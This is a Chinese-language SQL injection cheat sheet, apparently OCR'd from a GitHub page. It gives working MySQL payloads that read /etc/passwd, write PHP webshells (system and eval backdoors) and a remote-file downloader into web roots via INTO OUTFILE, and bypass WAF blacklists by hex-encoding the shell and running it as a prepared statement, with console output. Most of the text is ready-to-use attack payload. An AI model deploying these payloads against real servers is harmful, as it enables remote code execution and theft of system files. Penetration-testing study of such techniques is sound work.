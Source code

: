   * 读取文件(Reading Files)
    * MySQL - `LOAD_FILE()`
    * 例1 `SELECT LOAD_FILE('/etc/passwd');` 
    * 例2 `SELECT LOAD_FILE(0x2F6574632F706173737764);`
  * 写入文件(Writing Files)
    * MySQL - `select ... INTO OUTFILE` 能导出多行数据 会做格式处理(在行末端写入新行 会转义某些符号) 二进制文件会被破坏
    * MySQL - `select ... INTO DUMPFILE` 只能导出一行数据 不做格式处理 导出二进制文件 内容完全不变 依旧可运行
    * 例1 写入WebShell `SELECT '<? system($_GET[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php';` 访问WebShell `http://localhost/shell.php?c=cat%20/etc/passwd`
    * 例2 Downloader `SELECT '<? fwrite(fopen($_GET[f], \'w\'), file_get_contents($_GET[u])); ?>' INTO OUTFILE '/var/www/get.php'` 访问 `http://localhost/get.php?f=shell.php&u=http://localhost/c99.txt`
    * ...

#### SQLi - WAFbypass

* 绕过方法
  * sqlmap tamper - 用注释分割关键字 `/**/` 等
  * HTTP参数污染(HTTP Parameter Pollution)
  * ...


利用SQL注入写入webshell被拦截 - 如何绕过黑名单字符`'` `<` `?`

步骤1. 对"php代码"进行编码转换:  hex <-> ascii
```
利用了数据库能够使用hex编码的特性

对webshell的"php代码"进行编码转换

ascii字符:
<?php @eval($_POST['cmd']);?>

编码为十六进制(hex)格式的数据: 在最前面加0x
0x3C3F70687020406576616C28245F504F53545B27636D64275D293B3F3E
```


步骤2. 对"SQL语句"进行编码转换:  hex <-> ascii
```
利用了数据库能够使用hex编码的特性

ascii字符:
select 0x3C3F70687020406576616C28245F504F53545B27636D64275D293B3F3E from xss limit 1 into outfile 'C:/shell.php'

编码为十六进制(hex)格式的数据: 在最前面加0x
0x73656c656374203078334333463730363837303230343036353736363136433238323435463530344635333534354232373633364436343237354432393342334633452066726f6d20787373206c696d6974203120696e746f206f757466696c652027433a2f7368656c6c2e70687027
```

步骤3. 使用数据库的`set`创建变量 被"预编译语句"使用:
```
mysql> use xssdb;
Database changed

mysql> set @a=0x73656C6563742030783343334637303638373032303430363537363631364332
38323435463530344635333534354232373633364436343237354432393342334633452066726F6D
20787373206C696D6974203120696E746F206F757466696C652027433A2F7368656C6C2E70687027;
Query OK, 0 rows affected (0.00 sec)

mysql> prepare tmp from @a;
Query OK, 0 rows affected (0.00 sec)
Statement prepared

mysql> execute tmp;
Query OK, 1 row affected (0.00 sec)
```